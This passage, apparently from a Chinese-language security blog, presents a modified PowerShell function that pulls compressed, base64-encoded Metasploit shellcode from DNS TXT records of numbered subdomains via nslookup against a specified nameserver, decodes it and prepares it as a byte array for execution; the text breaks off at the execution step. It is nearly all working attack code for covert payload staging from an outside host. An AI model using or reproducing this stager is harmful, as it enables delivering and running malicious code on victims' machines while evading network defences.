 我们还需要一个获取TXT记录并执行的脚本，这里我改了一个脚本：

```
function Execute-Code
{
<#
.PARAMETER Shelldomain
The domain (or subdomain) whose subbdomain's TXT records would hold shellcode.
.PARAMETER subdomains
The number of subdomains which would be used to provide shellcode from their TXT records.
 .PARAMETER AUTHNS
Authoritative Name Server for the domains.
.EXAMPLE
PS > Execute-Code
The payload will ask for all required options.
.EXAMPLE
PS > Execute-Code -Shelldomain 32.alteredsecurity.com -SubDomains 5 -AUTHNS f1g1ns2.dnspod.net.
Use above from non-interactive shell.
#>
    [CmdletBinding()] Param(
        [Parameter(Position = 0, Mandatory = $True)]
        [String]
        $Shelldomain,
        [Parameter(Position = 1, Mandatory = $True)]
        [String]
        $Subdomains,     
        [Parameter(Position = 2, Mandatory = $True)]
        [String]
        $AUTHNS
    )
    function Get-ShellCode
    {
        Param(
            [Parameter()]
            [String]
            $Shelldomain
        )
        $i = 1
        while ($i -le $subdomains)
        {
            $getcommand = (Invoke-Expression "nslookup -querytype=txt $i.$Shelldomain $AUTHNS") 
            $temp = $getcommand | select-string -pattern "`""
            $tmp1 = ""
            $tmp1 = $tmp1 + $temp
            $encdata = $encdata + $tmp1 -replace '\s+', "" -replace "`"", ""
            $i++
        }
        #$encdata = ""
        $dec = [System.Convert]::FromBase64String($encdata)
        $ms = New-Object System.IO.MemoryStream
        $ms.Write($dec, 0, $dec.Length)
        $ms.Seek(0,0) | Out-Null
        $cs = New-Object System.IO.Compression.DeflateStream ($ms, [System.IO.Compression.CompressionMode]::Decompress)
        $sr = New-Object System.IO.StreamReader($cs)
        $sc = $sr.readtoend()
        return $sc
    }
    $Shell = (Get-ShellCode $Shelldomain)
    #Remove unrequired things from msf shellcode
    $tmp = $Shell -replace "`n","" -replace '\$buf \+\= ',"," -replace '\[Byte\[\]\] \$buf \=' -replace " "
    [Byte[]]$sc = $tmp -split ','
    #Code Execution logic
```